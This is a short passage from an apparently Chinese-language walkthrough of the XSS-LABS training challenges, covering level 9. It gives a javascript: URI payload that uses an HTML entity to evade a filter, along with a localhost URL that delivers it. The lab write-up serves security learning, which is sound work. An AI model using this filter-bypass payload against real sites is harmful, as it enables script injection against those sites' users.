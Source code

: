 ![image-20220928174715557](XSS-LABS.assets/image-20220928174715557.png)

## [9]

- 此关与上一关一样，但检测url中必须包含'http://'，所以在payload中加入注释掉的'http://'。

```shell
# payload
javasc&#114;ipt:alert() //http://

# url
http://localhost:1996/level9.php?keyword=javasc&#114;ipt:alert()+//http://&submit=添加友情链接
```

![image-20220928182414623](XSS-LABS.assets/image-20220928182414623.png)

## [10]
